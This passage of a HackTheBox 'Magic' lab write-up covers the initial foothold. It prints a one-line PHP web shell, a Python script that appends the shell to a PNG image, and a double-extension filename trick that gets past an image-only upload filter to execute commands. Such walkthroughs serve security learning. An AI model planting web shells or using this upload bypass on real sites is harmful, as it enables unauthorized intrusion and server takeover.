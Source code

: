 [<img src="../images/htb_magic/fileupload.png"
  style="width: 800px;"/>](../images/htb_magic/fileupload.png)


### Initial foothold

I figured I could upload some kind of php code to get command execution but the file upload was only allowing me to upload images.  Then I came across this really interesting article:

[https://techyzilla.blogspot.com/2012/07/injecting-malicious-php-in-to-an-image-file.html](https://techyzilla.blogspot.com/2012/07/injecting-malicious-php-in-to-an-image-file.html)

It talks you through injecting php code into an image which then can be uploaded to gain code execution.  

I used the following code:

PHP script for command execution:

```php
<?php echo "<pre>"; system($_GET['cmd']); ?>
```

Python script to embed the PHP code in an image.

```python
lavender = open ('404.png','rb').read()
lavender += open ('cmd.php','rb').read()
open ('newphp.php','wb').write(lavender)
```

Upon attempting to upload the newphp.png obviously it didn't get me code execution.  But upon changing the filename to be `newphp.php.png` worked and would allow me to get code execution.
